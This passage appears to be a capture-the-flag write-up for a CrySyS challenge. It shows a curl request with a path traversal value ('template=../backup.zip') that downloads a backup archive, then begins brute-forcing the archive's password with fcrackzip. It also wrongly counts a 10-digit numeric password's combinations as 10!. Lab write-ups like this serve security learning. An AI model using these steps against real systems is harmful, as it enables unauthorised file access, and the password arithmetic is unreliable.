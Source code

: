 The request seems like this:

```
curl 'https://instant-development-company.secchallenge.crysys.hu/download/templates' \
    -X POST \
    -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:97.0) Gecko/20100101 Firefox/97.0' \
    -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' \
    -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Content-Type: application/x-www-form-urlencoded' \
    -H 'Origin: https://instant-development-company.secchallenge.crysys.hu' \
    -H 'Connection: keep-alive' \
    -H 'Referer: https://instant-development-company.secchallenge.crysys.hu/debug' \
    -H 'Upgrade-Insecure-Requests: 1' \
    -H 'Sec-Fetch-Dest: document' \
    -H 'Sec-Fetch-Mode: navigate' \
    -H 'Sec-Fetch-Site: same-origin' \
    -H 'Sec-Fetch-User: ?1' \
    -H 'TE: trailers' \
    --data-raw 'template=debug.html'
```
So a bunch of headers, but also the parameter what file to download.  
I tried a few combinations for backup.zip, like:
```
    --data-raw 'template=backup.zip'
```
but the comment says, its in the root dir, so...
```
    --data-raw 'template=/backup.zip'
```
finally the third idea worked:
but the comment says, its in the root dir, so...
```
    --data-raw 'template=../backup.zip'
```
Boom!

## 4. Cracking the zip
It should be not too hard, the comment says its a 10 char password containing only numbers, so there are ```10! = 3 628 800``` combinations, not too much.
However, I need to find some tool for that, fortunately google easily found ```fcrackzip```.

```fcrackzip --help``` says:
```
USAGE: fcrackzip
          [-b|--brute-force]            use brute force algorithm
          [-D|--dictionary]             use a dictionary
          [-B|--benchmark]              execute a small benchmark
          [-c|--charset characterset]   use characters from charset
          [-h|--help]                   show this message
          [--version]                   show the version of this program
          [-V|--validate]               sanity-check the algortihm
          [-v|--verbose]                be more verbose
          [-p|--init-password string]   use string as initial password/file
          [-l|--length min-max]         check password with length min to max
          [-u|--use-unzip]              use unzip to weed out wrong passwords
          [-m|--method num]             use method number "num" (see below)
          [-2|--modulo r/m]             only calculcate 1/m of the password
          file...                    the zipfiles to crack
